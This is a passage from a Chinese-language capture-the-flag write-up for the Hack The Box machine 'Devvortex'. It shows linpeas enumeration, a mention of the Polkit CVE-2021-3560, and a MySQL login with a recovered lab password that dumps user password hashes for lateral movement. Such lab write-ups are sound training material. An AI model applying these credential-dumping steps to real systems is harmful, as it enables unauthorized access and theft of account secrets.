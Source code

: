 2. 利用linpeas.sh帮助枚举

   在我印象中CVE-2021-3560是利用Polkit身份验证机制中的竞争条件，如果找不到其他利用点在来尝试他

   ![image-20231128155803356](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202311281651259.png)

   本地开启了mysql数据库，我们目前拥有一个数据库凭证

   ![image-20231128160718644](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202311281651072.png)

   目标机器上的用户

   ![image-20231128160742000](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202311281651933.png)



## 3.2 切换到logan用户

1. 我们目前拥有一组数据库的凭证，先来连接查看一下

   ```
   www-data@devvortex:/tmp$ mysql -h localhost -u lewis -p'P4ntherg0t1n5r3c0n##'
   
   mysql> select * from sd4fg_users \G;
   *************************** 1. row ***************************
              id: 649
            name: lewis
        username: lewis
           email: lewis@devvortex.htb
        password: $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u
           block: 0
       sendEmail: 1
    registerDate: 2023-09-25 16:44:24
   lastvisitDate: 2023-11-28 07:48:42
      activation: 0
          params: 
   lastResetTime: NULL
      resetCount: 0
          otpKey: 
            otep: 
    requireReset: 0
    authProvider: 
   *************************** 2. row ***************************
              id: 650
            name: logan paul
        username: logan
           email: logan@devvortex.htb
        password: $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12
           block: 0
       sendEmail: 0
    registerDate: 2023-09-26 19:15:42
   lastvisitDate: NULL
      activation: 
          params: {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"}
   lastResetTime: NULL
      resetCount: 0
          otpKey: 
            otep: 
    requireReset: 0
    authProvider: 
   2 rows in set (0.00 sec)
   
   ERROR: 
   No query specified
   ```